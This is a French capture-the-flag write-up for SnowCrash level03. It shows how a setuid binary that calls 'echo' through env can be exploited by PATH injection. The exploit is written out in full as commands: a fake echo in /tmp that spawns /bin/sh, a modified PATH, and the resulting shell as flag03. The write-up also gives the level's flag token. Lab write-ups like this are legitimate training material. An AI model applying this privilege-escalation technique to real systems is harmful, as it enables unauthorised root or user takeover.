 Un fichier exécutable est présent dans le home, et affiche ce texte :

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On peut voir que ce fichier appartient à flag03, mais aussi qu'il a le suid et sgid actif :

```
level03@SnowCrash:~$ ls -l level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Le 's' placé à la position d’exécution du propriétaire est un setuid bit. Cela signifie que lorsque ce fichier est exécuté, il s’exécutera avec les permissions du propriétaire du fichier, ce qui tombe bien puisque l'exécution est autorisée pour tout le monde.
Ça semble être une exploitation basique, surtout en jetant un premier coup d’œil à l’exécutable avec strings, on trouve ceci :

```
level03@SnowCrash:~$ strings level03 
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me     <------- le fail
;*2$"

etc...
```

On voit que le programme appelle echo depuis l'env, ce qui est inutile en plus de créer une vulnérabilité d'attaque d'injection de chemin (ou path injection attack). Il suffit donc de modifier l'env en ajoutant par exemple :

```
echo '/bin/sh' > /tmp/echo
chmod 755 /tmp/echo
export PATH=/tmp:$PATH
```

Il ne reste plus qu'à utiliser l'exécutable qui, au lieu de faire appel à la vraie commande echo, lancera en réalité un shell avec les permissions de l'utilisateur flag03 (puisque le suid est activé sur ce fichier), nous permettant de récupérer le flag :

```
level03@SnowCrash:~$ ./level03 
$ getflag              
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
$ 
```
